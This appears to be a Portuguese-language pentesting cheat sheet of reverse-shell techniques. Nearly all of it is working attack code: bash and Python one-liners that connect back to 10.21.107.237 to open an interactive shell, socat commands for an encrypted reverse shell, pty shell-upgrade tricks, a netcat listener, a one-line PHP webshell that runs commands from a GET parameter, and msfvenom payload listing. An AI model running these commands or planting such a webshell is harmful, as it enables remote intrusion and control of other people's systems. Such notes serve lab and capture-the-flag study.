 - **Reverse Shells**:
```bash
https://www.revshells.com/?source=post_page-----ae216e7a836f---------------------------------------
```
# 🖥 Shells Reversas

## 🖥 Bash
```bash
cat << 'EOF' > test
#!/bin/bash
bash -i >& /dev/tcp/10.21.107.237/80 0>&1
EOF
```

## 🐍 Python
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.107.237",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 🔐 Shell reversa criptografada com SOCAT
### 🔹 Gerar chaves
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### 🔹 Listener criptografado
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

### 🔹 Reverse shell no alvo
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---

# 🔥 Melhorando Shells
## 🛠️ Melhorando Shells
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
## 🪟Windows
```bash
apt install rlwrap
rlwrap nc -lvnp <port>
```

---



## 📌Exemplo de Webshell em PHP
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

## 📌Metasploit Payloads
```bash
msfvenom -l payloads | grep "windows"
https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
```
